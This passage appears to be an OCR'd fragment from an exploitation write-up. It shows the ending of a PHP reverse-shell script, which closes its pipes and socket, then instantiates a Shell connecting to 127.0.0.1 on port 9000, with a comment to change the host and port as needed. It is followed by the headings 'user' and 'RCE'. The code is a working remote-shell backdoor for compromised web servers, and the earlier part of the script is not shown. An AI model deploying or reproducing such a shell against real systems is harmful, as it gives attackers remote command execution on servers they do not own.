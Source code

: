 ````php
                        fclose($pipe);
                    }
                    proc\_close($process);
                }
                // ------ SHELL END ------

                fclose($socket);
            }
            // ------ SOCKET END ------

        }
    }
}
echo '<pre>';
// change the host address and/or port number as necessary
$sh = new Shell('127.0.0.1', 9000);
$sh->run();
unset($sh);
// garbage collector requires PHP v5.3.0 or greater
// @gc\_collect\_cycles();
echo '</pre>';
?>
````


# user

## RCE